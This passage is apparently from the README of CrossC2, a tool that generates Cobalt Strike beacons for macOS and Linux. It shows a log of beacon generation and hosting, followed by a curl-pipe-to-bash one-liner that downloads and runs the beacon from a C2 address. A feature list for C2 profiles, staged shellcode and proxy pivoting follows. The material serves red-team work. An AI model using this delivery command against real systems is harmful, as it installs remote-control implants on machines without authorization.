 ![](media/15901534124389/15901617930412.jpg)

The information status will be prompted in the **event** interface during generation

```
05/01 23:31:03 *** /mnt/cc2/genCrossC2.MacOS 172.16.251.1 5555 /tmp/beacon_keys null MacOS x64 /tmp/CrossC2-test
05/01 23:31:06 *** genCrossC2 beacon -> *[success] :	Packed 1532232 byte.
05/01 23:31:07 *** hook hosted CrossC2 beacon MacOS x64 @ http://172.16.251.1:55413/iqEBVKwHoZ
05/01 23:31:07 *** hook hosted Script Unix Web Delivery (curl) @ http://172.16.251.1:55413/a
05/01 23:31:07 *** CrossC2 MacOS x64:   curl -A o -o- -L http://172.16.251.1:55413/a | bash -s
```


# Coming soon

1. Rich C2Profile support ✔︎ (Choose custom HTTP module when CNA generates beaocn)
2. Staged Type Shellcode Generation ✔︎ (Only Linux is temporarily supported, and stagerServer needs to be started on the server)
3. http-proxy (auth) & socks proxy back connection support
4. Proxy-Pivots  ✔︎ (Temporarily adopt the method of connecting back to socks proxy)
5. node beacon? (Single node type, can host other beacon without relying on teamserver)

# Examples
